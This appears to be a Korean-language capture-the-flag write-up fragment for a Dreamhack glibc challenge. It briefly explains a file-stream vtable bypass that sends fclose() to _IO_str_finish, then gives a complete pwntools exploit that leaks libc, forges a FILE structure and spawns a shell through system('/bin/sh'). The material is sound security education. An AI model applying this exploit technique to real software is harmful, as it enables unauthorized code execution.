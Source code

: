 ```c
```

gdb 상에서는 심볼이 없지만 앞에 16바이트 더미 값이 있고 그 뒤 형식이 동일한 것을 볼 수있다. fclose() 함수를 통해 _IO_str_finish를 실행 시켜야 하므로 _IO_file_jumps에서 +0xc0를 더한 값을 fake vtable로 주었다.

이를 통해 페이로드를 구성하면 다음과 같다.


```python
from pwn import *
context.update(arch='amd64', os='linux')
#context.log_level = 'debug'

#p = remote("host3.dreamhack.games", 10039);
p = process("./iofile_vtable_check", env={'LD_PRELOAD':'./libc.so.6'})
#p = process("./master_canary")
elf = ELF("./iofile_vtable_check")
libc = ELF("./libc.so.6")

p.recvuntil(b"stdout: ")
stdout = int(p.recvuntil(b"\n")[:-1], 16)
libc_base = stdout-libc.sym['_IO_2_1_stdout_']
system = libc_base+libc.sym['system']
fp = elf.sym['fp']
binsh = libc_base+list(libc.search(b"/bin/sh"))[0]
fake_vtable = libc_base + libc.sym['_IO_file_jumps']+0xc0

print(f"stdout : {hex(stdout)}")
print(f"libc_base : {hex(libc_base)}")
print(f"system : {hex(system)}")
print(f"fp : {hex(fp)}")
print(f"binsh : {hex(binsh)}")
print(f"fake vtable : {hex(fake_vtable)}")

pause()

payload = p64(0x0) # flags
payload += p64(0x0) # _IO_read_ptr
payload += p64(0x0) # _IO_read_end
payload += p64(0x0) # _IO_read_base
payload += p64(0x0) # _IO_write_base
payload += p64(0) # _IO_write_ptr
payload += p64(0x0) # _IO_write_end
payload += p64(binsh) # _IO_buf_base
payload += p64(0) # _IO_buf_end
payload += p64(0x0) # _IO_save_base
payload += p64(0x0) # _IO_backup_base
payload += p64(0x0) # _IO_save_end
payload += p64(0x0) # _IO_marker
payload += p64(0x0) # _IO_chain
payload += p64(0x0) # _fileno
payload += p64(0x0) # _old_offset
payload += p64(0x0)
payload += p64(fp + 0x80) # _lock 
payload += p64(0x0)*9
payload += p64(fake_vtable) # io_file_jump overwrite 
payload += p64(0)
payload += p64(system) 

p.sendlineafter(b"Data: ", payload)
p.interactive()
```